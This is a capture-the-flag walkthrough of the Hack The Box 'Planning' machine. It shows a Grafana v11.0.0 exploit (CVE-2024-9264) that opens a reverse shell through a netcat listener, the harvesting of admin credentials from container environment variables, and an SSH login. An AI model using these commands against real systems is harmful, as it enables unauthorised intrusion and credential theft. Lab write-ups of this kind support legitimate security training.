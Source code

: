 ```
```
### We find grafana.planning.htb 
#### Again add this to /etc/hosts file to access the url
```
10.10.11.68    planning.htb grafana.planning.htb
```
### Lets go to the browser
### We have to login using the given creds admin / 0D5oT70Fq13EvB5r. Click the ? on the top and we find the version Grafana v11.0.0 (83b9528bce). Search for vulnrabilities and i found this [CVE-2024–9264](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py)
## Reverse Shell
### Lets cd to that exploit and use poc.py to start a reverse shell
### Set a listener first
```
nc -lnvp 4444
```
### Run the poc.py
```
python poc.py --url http://grafana.planning.htb:80 --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <ip here> --reverse-port 4444

[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4444
```
```
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.68] 39288
sh: 0: can't access tty; job control turned off
# 

```
### Seems like we are in a Docker 
### Found something interestions in env
```
GF_SECURITY_ADMIN_PASSWORD= *REDACTED*
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
```
## User Flag
### Lets SSH using the found username enzo.
```
─# ssh enzo@10.10.11.68
```
```
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

<snip>

enzo@planning:~$ 
```